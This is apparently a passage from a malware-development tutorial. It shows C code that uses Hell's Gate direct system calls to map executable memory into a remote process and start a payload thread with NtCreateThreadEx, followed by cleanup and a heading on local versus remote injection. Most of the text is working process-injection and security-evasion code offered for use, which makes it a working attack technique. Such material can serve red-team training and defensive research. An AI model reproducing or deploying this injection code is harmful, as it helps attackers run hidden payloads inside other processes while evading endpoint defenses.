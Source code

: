 ```
	// Allocating remote map view
	HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pRemoteAddress);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	HellsGate(pVxTable->NtUnmapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	HellsGate(pVxTable->NtClose.wSystemCall);
	if ((STATUS = HellDescent(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```
### **Local vs Remote Injection**

Similar to the previous module, a preprocessor macro code was constructed to target the local process if `LOCAL_INJECTION` is defined. The preprocessor code is shown below.

